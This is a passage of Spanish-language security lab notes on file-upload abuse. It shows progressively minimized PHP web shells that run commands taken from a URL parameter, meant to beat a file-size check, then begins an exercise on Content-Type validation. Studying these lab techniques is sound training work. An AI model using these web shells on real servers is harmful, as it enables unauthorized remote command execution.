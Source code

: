 En este lab se está aplicando una validación para restringir archivos que superen un tamaño específico. Sin embargo, el código se puede reducir de tamaño y a continuación se muestran ejemplos de cómo reducir el tamaño del código.

```bash
# Tamaño original
<?php
	system($_GET['cmd']);
?>

# Eliminar saltos de línea
<?php	system($_GET['cmd']); ?>

# Reducir caracteres de parámetro
<?php	system($_GET['a']); ?>

# Cambiar parámetro a un número. A nivel de URL se vería 
# como: /0?=whoami
<?php	system($_GET[0]); ?>

# Cambiar el "system" a "exec" no será muy conveniente ya 
# que este último se le debe agregar un echo si no, no 
# mostrará output, su variante es "shell_exec"

# Cambiar php por "="
<?=	system($_GET[0]); ?>

# Usar comillas de escape "``"
<?php`$_GET[0]`?>
```

![Captura: Ejercicio #16](../assets/OWASP-TOP-10/Abuso de subidas de archivos/Untitled 20.png)

Captura: Ejercicio #16

![Captura: Ejercicio #17](../assets/OWASP-TOP-10/Abuso de subidas de archivos/Untitled 21.png)

Captura: Ejercicio #17

![Untitled](../assets/OWASP-TOP-10/Abuso de subidas de archivos/Untitled 22.png)

## Upload #21 - Tipo de archivo (Content-Type)

![Untitled](../assets/OWASP-TOP-10/Abuso de subidas de archivos/Untitled 23.png)

En este ejercicio se está aplicando una validación para verificar el tipo de archivo, esto a nivel de headers, se refiere al Content-Type. Por ejemplo, el siguiente Content-Type se usa para indicar un archivo de tipo php:

```bash
Content-Type: application/x-php
```
